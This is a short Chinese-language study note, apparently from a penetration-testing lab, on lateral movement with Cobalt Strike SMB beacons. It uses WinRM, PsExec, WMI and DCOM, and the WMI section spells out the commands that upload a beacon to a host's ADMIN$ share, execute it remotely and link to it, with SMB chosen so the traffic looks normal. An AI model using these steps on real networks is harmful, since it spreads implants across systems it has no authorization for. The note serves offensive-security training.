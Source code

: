 这里的横向都使用smb的p2p beacon，因为smb普遍安装在windows，可以伪装成正常流量

# PowerShell Remoting

当前账号，枚举将要横向的目标计算机的架构

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217567944.png)

使用```winrm64```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217648208.png)

使用```winrm```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217760830.png)

# PsExec

使用```psexec64```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217855448.png)

使用```psexec```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217912569.png)

使用```psexec_psh```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217968185.png)

# Windows Management Instrumentation (WMI)

1. 使用WMI横向，首先要生成一个SMB的p2p beacon,然后上传到目标靶机
```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
```

2. 使用```remote-exec```命令，远程执行beacon-smb.exe
```
remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
```

3. 连接目标靶机上的smb beacon
```
link srv-1
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659218159039.png)

# DCOM

这个方法跟WMI差不多：1，生成beacon，上传到靶机。2，远程执行。3，连接。

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659218634868.png)